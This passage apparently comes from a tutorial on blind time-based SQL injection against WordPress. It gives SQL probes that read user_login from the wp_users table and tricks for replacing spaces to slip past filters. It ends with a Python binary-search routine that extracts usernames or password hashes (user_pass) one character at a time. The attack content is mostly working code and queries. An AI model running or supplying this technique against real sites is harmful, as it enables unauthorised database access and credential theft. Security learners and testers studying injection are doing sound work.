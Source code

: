 select substr(user_login,1,1) from wp_users;
select if(substr('test',1,1) between "r" and "z","yup","nope");
</code></pre>

Can take a bit of trial and error to work these out:
<pre><code>
select if((select substr(user_login,1,1) from wp_users) between "r" and "z","yup","nope");
</code></pre>

Once you have it working directly on the SQL server modify your requests and add + or /**/ to replace spaces. When you're able to reliably sleep using an external request when checking the range of a specific character you'll be able to implement a binary search using an index.  

Using a binary search is like playing hotter/colder with the server.  For each position we split the range of possible characters and guess which half it’s in.  As we identify the upper or lower range we shift to where the character is known to be and gradually reduce the search range until we find it. 

As an example here's a chunk of code calling the verification function and iteratively finding one character at a time.
<pre><code>
def binary_search_ascii(field, idx):
    lower = 32  # visible chars only
    upper = 127 # ASCII range from 0 to 127

    while lower != upper:
        mid = (lower + upper) // 2
        #print("Testing if "+str(mid)+" is between "+str(lower)+" and "+str(upper))
        print(".",end="",flush=True)
        if test_fn(lower, mid, field, idx):
            upper = mid
        else:
            lower = mid + 1

    if test_fn(lower, lower, field, idx):
        return chr(lower)
    else:
        return -1 # Target range not found

field="user_login"
#field = "user_pass"
idx = 1
char = ""
answer=""

while True:
    char = binary_search_ascii(field, idx)
    if char == -1:
        break

    print(char)
    answer += char
    idx += 1

print(answer)
</code></pre>
